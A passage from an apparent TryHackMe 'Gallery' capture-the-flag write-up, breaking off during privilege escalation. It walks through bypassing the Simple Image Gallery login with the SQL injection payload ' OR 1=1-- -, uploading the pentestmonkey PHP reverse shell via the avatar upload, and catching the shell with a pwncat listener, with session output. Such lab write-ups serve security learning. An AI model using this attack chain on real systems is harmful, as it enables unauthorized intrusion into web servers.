Port 80 is a default Apache home page.
![default Apache home page](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gallery/images/80.png)
When I visit port 8080, it redirects me to `/gallery/login.php`.
![Gallery login page](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gallery/images/login.png)

# Exploitation
> Get a shell

At here, after googling, I found the CMS is `Simple Image Gallery`. Then, I try to do a SQL Injection at the login page. Let's try the low-hanging fruit of SQLi, `' OR 1=1-- -`.
![SQLi](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gallery/images/sqli.png)
![adminpage](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gallery/images/adminpage.png)
Bang! We've successfully login as admin user. Then, I started to fumble around, and I found a upload page at `My Account` where I can upload an avatar.
![upload](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gallery/images/upload.png)
Let's click on browse, and upload a `php reverse shell`. I'll use a php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
```
┌──(root💀nam)-[~/thm/ctf/Gallery]
└─# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
Modify your listener IP address and port.
Setup a listener, I'll use [`pwncat`](https://github.com/calebstewart/pwncat) to upgrade and stable the reverse shell automatically.(Tips. Hit `Ctrl+D` to switch between remote and local)
```
┌──(root💀nam)-[~/thm/ctf/Gallery]
└─# pwncat-cs -l 10.2.119.204 4444                                                                     
[06:12:21] Welcome to pwncat 🐈!                                                                          __main__.py:164
[06:12:44] received connection from 10.10.147.19:57072                                                         bind.py:84
[06:12:49] 10.2.119.204:4444: upgrading from /bin/dash to /bin/bash                                        manager.py:957
[06:12:51] 10.10.147.19:57072: registered new host w/ db                                                   manager.py:957
(local) pwncat$                                                                                                          
(remote) www-data@gallery:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Privilege Escalation
After having the reverse shell, I started to exploring this machine's home directory.
I found a user flag at `/home/mike`
```
(remote) www-data@gallery:/home/mike$ ls -la
total 44
drwxr-xr-x 6 mike mike 4096 Aug 25  2021 .
drwxr-xr-x 4 root root 4096 May 20  2021 ..
-rw------- 1 mike mike  135 May 24  2021 .bash_history
-rw-r--r-- 1 mike mike  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike 3772 May 20  2021 .bashrc
drwx------ 3 mike mike 4096 May 20  2021 .gnupg
drwxrwxr-x 3 mike mike 4096 Aug 25  2021 .local
-rw-r--r-- 1 mike mike  807 Apr  4  2018 .profile
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```